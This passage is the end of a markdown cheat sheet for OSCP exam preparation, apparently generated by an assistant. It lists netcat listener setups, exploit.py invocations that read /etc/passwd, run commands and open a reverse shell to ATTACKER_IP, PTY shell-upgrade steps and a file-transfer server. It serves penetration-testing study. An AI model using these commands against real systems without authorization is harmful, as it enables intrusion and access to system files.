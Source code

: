 # Dependency setup
python3 -m venv v && source v/bin/activate && pip install requests pwntools
```

### **Listener Commands**
```
# Standard listener
nc -nvlp 4444

# Enhanced listener with line editing
rlwrap nc -nvlp 4444

# Multi-port listener setup
for port in 4444 80 443 53; do nc -nvlp $port & done
```

### **Common Exploit Patterns**
```
# File reading
python3 exploit.py -t TARGET --read /etc/passwd

# Command execution  
python3 exploit.py -t TARGET --exec 'id; hostname'

# Reverse shell (start listener first!)
nc -nvlp 4444 &
python3 exploit.py -t TARGET --lhost ATTACKER_IP --lport 4444
```

### **Shell Upgrade Commands**
```
# Immediate shell upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg

# File transfer setup
python3 -m http.server 8000 &
```

---

**Remember: understand before you execute** - analyze the script, understand what it does, set up the proper listeners, and always verify your connections work before proceeding to post-exploitation activities.
```

Copy and paste this entire content into a `.md` file (like `oscp-python-guide.md`) and you'll have your complete OSCP Python exploitation reference guide ready for use during your exam preparation and the actual exam.
